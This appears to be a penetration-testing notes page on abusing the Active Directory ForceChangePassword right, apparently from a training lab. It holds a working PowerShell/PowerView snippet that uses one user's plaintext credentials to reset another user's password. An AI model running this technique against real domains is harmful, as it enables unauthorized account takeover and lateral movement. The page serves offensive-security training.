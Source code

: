 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
 
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
# change the user's password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
